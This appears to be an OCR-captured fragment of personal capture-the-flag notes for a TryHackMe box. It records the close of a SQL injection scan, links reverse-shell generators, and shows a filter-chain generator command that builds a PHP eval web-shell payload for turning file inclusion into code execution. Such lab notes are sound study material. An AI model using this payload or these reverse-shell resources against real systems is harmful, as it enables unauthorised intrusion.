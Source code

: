     [*] ending @ 12:14:48 /2025-04-29/
    ```
    

### We see that the parameter is vulnerable to three different SQL injection variants:
boolean-based blind
error-based
ime-based blind

[Moebius | Writeups](https://0xb0b.gitbook.io/writeups/tryhackme/2025/moebius)

## Exploit & Initial Access

### Reverse Shell Generators writeup

### 🐚 **Reverse Shell Generators**

- [**Reverse Shell Generator**](https://www.revshells.com/) – Quick reverse shell one-liner generator.
- [**Pentestmonkey Reverse Shell Cheatsheet**](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) – Classic shell one-liners for various languages.
- [**Nishang Shell Generator**](https://github.com/samratashok/nishang) – PowerShell reverse shells (see `Invoke-PowerShellTcp`).
- [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings) – Collection of useful payloads and bypasses.
- [**Shells.cloud**](https://shells.cloud/) *(if available)* – Online reverse shell generator (mirror of revshells sometimes).

### To turn this **LFI** vulnerability into **RCE**, another method besides log poisoning is to use **PHP filters chain**

We can generate a filter chain using by **Synacktiv**: 

[https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

```jsx
└─$ python3 ./php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
[+] The following gadget chain will generate the following code : <?=eval($_GET[0])?> (base64 value: PD89ZXZhbCgkX0dFVFswXSk/Pg)
```